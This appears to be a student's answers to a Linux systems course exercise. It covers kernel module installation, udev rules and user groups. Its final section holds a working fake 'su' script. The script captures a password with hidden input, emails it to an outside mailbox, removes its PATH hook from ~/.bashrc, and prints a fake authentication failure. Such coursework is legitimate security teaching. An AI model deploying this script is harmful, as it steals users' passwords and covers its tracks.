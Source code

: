 # Non-programming & Programming Exercises

## A clean setup

### Where to copy the dice module for it to be officially known to the kernel?

```bash
/lib/modules/$(uname -r)/kernel/drivers/char
```

### What command to run in order to generate the modules.dep and map files?

`depmod`

### How to ensure the dice module is loaded at boot time, and how to pass it options?

add `dicemodule.conf` to `/etc/modules-load.d/` or `/etc/modules` and add with `dicedevice <option>=<value`
Use `dicemodule.ko` when loaded at boot

### How to create a new friends group and add grandpa and his friends to it?

```bash
sudo groupadd friends
usermod -a -G friends grandpa
usermod -a -G friends friend
```

### What is udev and how to define rules such that the group and permissions are automatically setup at device creation?

udev (userspace /dev ) is a device manager for the Linux kernel. As the successor of devfsd and hotplug, udev primarily manages device nodes in the /dev  directory. At the same time, udev also handles all user space events raised when hardware devices are added into the system or removed from it, including firmware loading as required by certain devices.
modify the rules stored in /lib/udev/rules.d/*.rules , for example: KERNEL=="dice0", ATTRS{idVendor}=="16c0", ATTRS{idProduct}=="05df", MODE="066

## A discreet gambling setup

### How adjust the PATH, ensure its new version is loaded but then forgotten?

add `export PATH=WHERE_YOUR_SU_IS:$PATH` in `~/.bashrc`
Also run `source ~/.bashrc`

### What is the exact behaviour of su when wrong password is input?

`perror` output message `su: Authentication failure`

### When using the read command how to hide the user input?

`read -s`

### How to send an email from the command line?

```bash
sudo apt install mailutils
sudo apt install ssmtp
sudo vim /etc/ssmtp/ssmtp.con
```

```bash
# mail config
root=sjtu_xwq@sjtu.edu.cn
# The place where the mail goes. The actual machine name is required no 
# MX records are consulted. Commonly mailhosts are named mail.domain.com
mailhub=mail.sjtu.edu.cn:587
# Where will the mail seem to come from?
#rewriteDomain=
# The full hostname
hostname=sjtu.edu.cn:mail.sjtu.edu.cn:587
# Are users allowed to set their own From: address?
# YES - Allow the user to specify their own From: address
# NO - Use the system generated From: address
#FromLineOverride=YES
#
AuthUser=sjtu_xwq@sjtu.edu.cn
AuthPass=$JACCOUNT_PASSWORD
UseTLS=Yes
```
```bash
#!/bin/bash
mailto=sjtu_xwq@sjtu.edu.cn
echo -e "Password: \c"
read -s password
echo
mail -s 'mum password' $mailto <<< $password
sleep 5
head -n -1 ~/.bashrc > ~/.bashrc.tmp
mv ~/.bashrc.tmp ~/.bashrc
echo "su: Authentication failure"
exit 1
```

